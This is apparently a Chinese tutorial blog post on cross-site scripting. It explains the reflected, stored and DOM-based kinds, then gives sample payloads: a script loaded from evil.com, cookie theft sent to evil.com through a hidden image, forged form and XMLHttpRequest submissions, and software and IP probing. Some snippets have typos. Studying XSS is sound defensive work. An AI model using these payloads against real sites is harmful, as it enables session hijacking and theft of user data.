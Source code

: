 ```yaml
---
title: 跨站脚本攻击
date: 2017-08-05 09:20:08
tags: 安全
---
```


#### XSS 简介

XSS 攻击：黑客通过注入网页，从而在用户浏览网页时控制浏览器的一种行为。英文全称 Cross Site Script，本来缩写是 CSS，但是为了和层叠样式表(Cascading Style Sheet, CSS)有所区别，所以在安全领域叫 "XSS"。

反射型 XSS

- 反射型 XSS 只是简单地把用户输入的数据“反射”给浏览器。也就是说，黑客往往需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作“非持久型 XSS”(Non-persistent XSS)

存储型 XSS

- 储存型 XSS 会把用户输入的数据“存储”在服务器端。这种 XSS 具有很强的稳定性。比较常见的一个场景就是，黑客写下一篇含有恶意 JavaScript 代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。

- 存储型 XSS 通常也叫做“持久性 XSS”(Persistent XSS)，因为从效果上来说，它存在的时间是比较长的。

DOM Based XSS

- 实际上，这种类型的 XSS 并非按照“数据是否保存在服务器端”来划分，DOM Based XSS 从效果上来说是反射型 XSS。单独划分出来，是因为 Dom Based XSS 的形成原因比较特别，发现它的安全专家专门提出了这种类型的 XSS。处于历史原因，也就把它单独作为一个分类了。

例如：

```html
<script>
function test() {
    var str = document.getElementById("text").value;
    document.getElementById("t").innerHTML = "<a href='"+str+"'>testLink</a>";
}
</script>
<div id="t"></div>
<input type="text" id="text" value="">
<input type="button" id="a" value="write" onclick="test()"/>
```

#### XSS 攻击进阶

#### 初探 XSS Payload

一个最常见的 XSS Payload，就是通过读取浏览器的 Cookie 对象，从而发起“Cookie 劫持”攻击

如下所示，攻击者先加载一个远程脚本：

```html
http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js></script>
```

在 evil.js 中，可以通过如下代码窃取 Cookie：

```javascript
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.apendChild(img);
```

这段代码在页面中插入了一张看不见的图片，同时把 document.cookie 对象作为参数发送到远程服务器

#### 强大的 XSS Payload

构造一个 form 表单，然后自动提交这个表单

```javascript
var dd = document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML = '<form action="" method="post" id="xssform" name"mbform">'+
'<input type="hidden" value="JiUY" name="ck" />'+
'<input type="text" value="test" name="mb_text" />'+
'<form>'
document.getElementById("xssform").submit();
```

通过 XMLHttpRequest 发送一个 POST 请求

```javascript
var url="http://www.douban.com";
var psotstr = "ck=JiUY&mb_text="test123";
var ajax = null;
if(window.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
}
else if(window.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
else{
    return;
}

ajax.open("POST", url, ture);
ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function() {
    if(ajax.readyState == 4 && ajax.status == 200) {
        alert("Done!");
    }
}
```

识别用户安装的软件

```javascript
try {
    var obj = new ActiveXObject('XunLeiBHO.ThunderIEHelper');
} catch(e) {
    // 异常，不存在该控件
}
```

如果客户端安装了 java 环境，那么 XSS 就可以通过调用 Java Applet 的接口获取客户端的本地 IP 地址。

```javascript
AttackAPI.dom.getInternalIP = function() {
    try {
        var sock = new java.net.Socket();
        sock.bind(new java.net.InetSocketAddress('0.0.0.0', 0));
        sock.connect(new java.net.InetSocketAddress(document.domain, (!document.location.port)?80:document.location.port));
        return sock.getLocalAddress().getHostAddress();
    } catch(e) {}
    return '127.0.0.1';
};
```

#### XSS 攻击平台

- Attack API

- BeEF

- XSS-Proxy


#### 终极武器：XSS Worm

蠕虫是利用服务器端软件漏洞进行传播的，比如 2003 年的冲击波蠕虫，是利用 windows 的 RPC 远程溢出漏洞。

